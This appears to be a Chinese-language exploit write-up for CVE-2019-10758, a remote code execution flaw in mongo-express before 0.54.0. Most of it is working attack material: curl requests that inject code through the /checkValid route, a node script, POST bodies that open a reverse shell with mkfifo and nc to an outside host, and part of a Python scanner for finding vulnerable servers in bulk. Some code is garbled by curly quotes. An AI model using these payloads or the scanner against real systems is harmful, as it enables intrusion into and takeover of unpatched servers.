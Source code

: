 ```yaml
---
title: （CVE-2019-10758）Mongo expres rce
id: zhfly3032
---
```


# （CVE-2019-10758）Mongo expres rce

## 一、漏洞简介

漏洞问题出在lib/bson.js中的toBSON()函数中，路由 /checkValid 从外部接收输入，并调用了存在 RCE 漏洞的代码，由此存在被攻击的风险，可在服务器上进行任意命令执行。

## 二、漏洞影响

mongo-express < 0.54.0

## 三、复现过程

https://github.com/ianxtianxt/CVE-2019-10758

#### 安装环境

```
docker run -p 27017:27017 -d mongo
npm install mongo-express@0.53.0 
cd node_modules/mongo-express/ && node app.js 
```

#### cURL exploit

```
curl 'http://www.0-sec.org:8081/checkValid' -H 'Authorization: Basic YWRtaW46cGFzcw=='  --data 'document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("/Applications/Calculator.app/Contents/MacOS/Calculator")' 
```

```
curl 'http://www.0-sec.org:8081/checkValid' -H 'Authorization: Basic YWRtaW46cGFzcw==' --data 'document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("echo Str1am > file.txt")' 
```

![image](../img/16b39f58adcd80d7accd415d73cf71fc.png)

#### Script exploit

```
node main.js 
```

#### main.js

```
exploit = "this.constructor.constructor(\"return process\")().mainModule.require('child_process').execSync('/Applications/Calculator.app/Contents/MacOS/Calculator')" `var bson = require(‘mongo-express/lib/bson’)

bson.toBSON(exploit)` 
```

### 补充

> mongo-express远程代码执行，反弹shell代码如下：

#### POST BODY 1:

```
document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("mkfifo /tmp/f") 
```

#### POST BODY 2：

```
document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("cat /tmp/f | /bin/sh -i 2>%261 | nc x.x.x.x 666 >/tmp/f") 
```

### 批量监测脚本【只放核心代码】

```
payload = r'document=this.constructor.constructor("return process")().mainModule.require("child_process").execSync("echo 111111")' `def http_request(url,path_out):

try:

print(“Trying:” + url + ’ ’ + ‘[’ + str(left) + ‘/’ + str(countLines) + ‘]’)

vulurl = url + “/checkValid”

r = requests.post(url=vulurl, headers=headers, data=payload, timeout=10, verify= False)

if r.status_code == 200 and ‘Valid’ in r.text:

print("\033[1;40;32m’Good Found!’ {}\033[0m".format(vulurl))

#printGreen("[+]" + url)

with open(path_out,‘a’) as f:

f.write(vulurl + ‘\n’)

else:

print("[-]" + “r.status_code:” + str(r.status_code) + “,” + “raise.text:” + r.text)

except Exception as err:

print(err)` 
```